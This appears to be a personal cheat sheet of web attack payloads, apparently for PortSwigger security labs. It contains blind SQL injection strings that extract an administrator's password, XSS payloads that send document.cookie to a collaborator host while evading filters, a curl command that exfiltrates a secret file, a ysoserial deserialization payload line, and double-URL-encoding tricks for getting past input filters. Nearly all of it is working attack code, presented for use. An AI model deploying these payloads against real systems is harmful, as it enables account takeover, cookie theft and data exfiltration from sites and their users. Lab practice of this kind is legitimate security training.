 # SQL Injection

```sql
-- In order by statment https://portswigger.net/support/sql-injection-in-the-query-structure
-- ASCII converts the characters to numbers
(CASE+WHEN(SELECT+ASCII(SUBSTRING(password,1,1))+FROM+users+where+username+%3d+'administrator')%3d97+THEN+AUTHOR+ELSE+TITLE+END)

-- Divides by 1 if true, 0 if not
-- Used when a number (int) was in front of the query
-- %2F = /, %2B = +, %2A = *, %2D = -
%2F(CASE+WHEN+(SELECT+SUBSTRING(password,1,1)+FROM+users+where+username+%3d+'administrator')%3d'a'+THEN+1+ELSE+0+END)
```

# XSS

```js
// No periods (.)
fetch(atob('<base64-of-your-colaborator>'), {method: 'POST', mode: 'no-cors', body:eval(atob('ZG9jdW1lbnQuY29va2ll'))})

// No parentheses
eval.call`${"fetch\x28'<your-collaborator>', {method: 'POST', mode: 'no-cors', body: document.cookie}\x29"}`
//  With base64 encoding
eval.call`${atob`YWxlcnQoMSk=`}`

// SVG to steal cookie
'"><svg/onload=fetch(`//<your-collaborator>/cookie?=${encodeURIComponent(document.cookie)}`)>
```

# Code Injection
```bash

# Curl file contents
curl -X POST <your-collaborator> -d @/home/carlos/secret

# Gzip and base64 ysoserial
java -jar ysoserial-all.jar CommonsBeanutils1 "CMD" | gzip | base64 -w0
```

# Obfuscation

## Double URL Encoding 
### The letter a = %2561
- %25 = % when decoded so it ends up as %61 which equals a
- To quickly do this in console:
  - Set the urlencoded string to a variable and use replace all:
    ```
    // admin urlencoded is: %61%64%6d%69%6e
    > s = "%61%64%6d%69%6e"
    > s.replaceAll('%', '%25')
    // Outputs: %2561%2564%256d%2569%256e
    ```
